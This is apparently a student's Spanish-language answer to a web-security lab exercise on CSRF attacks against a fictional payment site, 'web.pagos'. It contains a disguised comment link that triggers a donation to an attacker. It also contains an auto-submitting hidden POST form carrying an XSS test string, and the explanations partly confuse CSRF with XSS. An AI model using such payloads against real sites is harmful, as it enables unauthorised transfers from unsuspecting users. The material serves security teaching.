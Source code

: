 ## Parte b)

Una vez lo tenéis terminado, pensáis que la eficacia de este ataque aumentaría si no necesitara que el usuario pulse un botón. Con este objetivo, cread un comentario que sirva vuestros propósitos sin levantar ninguna sospecha entre los usuarios que consulten los comentarios sobre un jugador (show_comments.php).

```html

<style>
    .prueba {
        text-decoration: none;
        color: inherit; 
        cursor: pointer; 
        background: white;
    }
    .prueba:hover {
        text-decoration: none;
        color: inherit; 
        cursor: pointer; 
        background: white;
        transition: none;
    }
</style>

No está mal como <a href="http://web.pagos/donate.php?amount=100&receiver=attacker" target="_blank" class="prueba">jugador</a>

```

## Parte c)

Pero 'web.pagos' sólo gestiona pagos y donaciones entre usuarios registrados, puesto que, evidentemente, le tiene que restar los 100€ a la cuenta de algún usuario para poder añadirlos a nuestra cuenta.
Explicad qué condición se tendrá que cumplir por que se efectúen las donaciones de los usuarios que visualicen el mensaje del apartado anterior o hagan click en el botón del apartado a).

Para realizar este apartado, web.pagos tendría que pasar a mandar una solicitud comprobando si el usuario está registrado en la plataforma, y al verificarlo, proceder al pago.

## Parte d)

Si 'web.pagos' modifica la página 'donate.php' para que reciba los parámetros a través de POST, quedaría blindada contra este tipo de ataques? En caso negativo, preparad un mensaje que realice un ataque equivalente al del apartado b) enviando los parámetros “amount” i “receiver” por POST.

Debido a no tener el código fuente de web.pagos, no podemos garantizar que quede blindado contra estos tipos de ataques, dado que puede mantenerse la posibilidad de hacerse ataques XSS, pudiendo ser así:

```html

<form id="maliciousForm" action="https://web.pagos/donate.php" method="POST">
    <input type="hidden" name="amount" value="<script>alert('¡Ataque XSS!');</script>">
    <input type="hidden" name="receiver" value="usuarioMalicioso">
    <input type="submit" value="Realizar Donación">
</form>

<script>
    document.getElementById('maliciousForm').submit();
</script> 

```
